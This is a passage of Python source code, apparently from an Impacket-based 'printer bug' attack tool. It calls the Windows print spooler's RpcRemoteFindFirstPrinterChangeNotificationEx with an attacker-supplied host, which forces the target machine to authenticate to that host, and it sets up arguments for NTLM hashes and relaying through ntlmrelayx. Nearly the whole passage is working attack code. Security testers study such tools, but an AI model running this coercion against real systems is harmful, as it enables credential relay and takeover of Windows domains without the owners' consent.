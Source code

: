 ```
                return
            elif str(e).upper().find('ACCESS_DENIED'):
                # We're not admin, bye
                logging.error('Access denied - RPC call was denied')
                dce.disconnect()
                return
            else:
                raise
        logging.info('Got handle')

        request = rprn.RpcRemoteFindFirstPrinterChangeNotificationEx()
        request['hPrinter'] =  resp['pHandle']
        request['fdwFlags'] =  rprn.PRINTER_CHANGE_ADD_JOB
        request['pszLocalMachine'] =  '\\\\%s\x00' % self.__attackerhost
        request['pOptions'] =  NULL
        try:
            resp = dce.request(request)
        except Exception as e:
            print(e)
        logging.info('Triggered RPC backconnect, this may or may not have worked')

        dce.disconnect()

        return None

# Process command-line arguments.
def main():
    # Init the example's logger theme
    handler = logging.StreamHandler(sys.stderr)
    handler.setFormatter(ImpacketFormatter())
    logging.getLogger().addHandler(handler)
    logging.getLogger().setLevel(logging.INFO)

    # Explicitly changing the stdout encoding format
    if sys.stdout.encoding is None:
        # Output is redirected to a file
        sys.stdout = codecs.getwriter('utf8')(sys.stdout)
    logging.info(version.BANNER)

    parser = argparse.ArgumentParser()

    parser.add_argument('target', action='store', help='[[domain/]username[:password]@]<targetName or address>')
    parser.add_argument('attackerhost', action='store', help='hostname to connect to')

    group = parser.add_argument_group('connection')

    group.add_argument('-target-file',
                       action='store',
                       metavar="file",
                       help='Use the targets in the specified file instead of the one on'\
                            ' the command line (you must still specify something as target name)')
    group.add_argument('-port', choices=['139', '445'], nargs='?', default='445', metavar="destination port",
                       help='Destination port to connect to SMB Server')

    group = parser.add_argument_group('authentication')

    group.add_argument('-hashes', action="store", metavar = "LMHASH:NTHASH", help='NTLM hashes, format is LMHASH:NTHASH')
    group.add_argument('-no-pass', action="store_true", help='don\'t ask for password (useful when proxying through ntlmrelayx)')

```